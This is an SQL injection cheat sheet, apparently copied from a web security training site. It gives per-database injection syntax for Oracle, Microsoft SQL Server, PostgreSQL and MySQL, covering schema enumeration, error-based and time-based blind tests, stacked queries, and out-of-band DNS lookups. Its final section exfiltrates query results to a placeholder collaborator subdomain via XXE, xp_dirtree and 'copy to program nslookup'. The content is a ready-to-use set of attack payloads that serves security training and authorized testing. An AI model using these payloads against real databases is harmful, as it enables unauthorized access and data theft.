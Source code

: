# SQL injection cheat sheet
This SQL injection cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.

## String concatenation
You can concatenate together multiple strings to make a single string.
```
Oracle 	'foo'||'bar'
Microsoft	'foo'+'bar'
PostgreSQL	'foo'||'bar'
MySQL	'foo' 'bar' [Note the space between the two strings]
CONCAT('foo','bar')
```
## Comments
You can use comments to truncate a query and remove the portion of the original query that follows your input.
```
Oracle	--comment
Microsoft	--comment
/*comment*/
PostgreSQL	--comment
/*comment*/
MySQL	#comment
-- comment [Note the space after the double dash]
/*comment*/
```
## Database version
You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.
```
Oracle	SELECT banner FROM v$version
SELECT version FROM v$instance
Microsoft	SELECT @@version
PostgreSQL	SELECT version()
MySQL	SELECT @@version
```
## Database contents
You can list the tables that exist in the database, and the columns that those tables contain.
```
Oracle	SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
Microsoft	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
PostgreSQL	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
MySQL	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```
## Conditional errors
You can test a single boolean condition and trigger a database error if the condition is true.
```
Oracle	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual
Microsoft	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
PostgreSQL	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END
MySQL	SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
```
## Batched (or stacked) queries
You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.
```
Oracle	Does not support batched queries.
Microsoft	QUERY-1-HERE; QUERY-2-HERE
PostgreSQL	QUERY-1-HERE; QUERY-2-HERE
MySQL	Does not support batched queries.
```
## Time delays
You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.
```
Oracle	dbms_pipe.receive_message(('a'),10)
Microsoft	WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT pg_sleep(10)
MySQL	SELECT sleep(10)
```
## Conditional time delays
You can test a single boolean condition and trigger a time delay if the condition is true.
```
Oracle	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
Microsoft	IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
MySQL	SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')
```
## DNS lookup
You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.
```
Oracle	The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual

The following technique works on fully patched Oracle installations, but requires elevated privileges:
SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')
Microsoft	exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'
PostgreSQL	copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'
MySQL	The following techniques work on Windows only:
LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')
SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'
```
## DNS lookup with data exfiltration
You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.
```
Oracle	SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual
Microsoft	declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')
PostgreSQL	create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
MySQL	The following technique works on Windows only:
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'
```
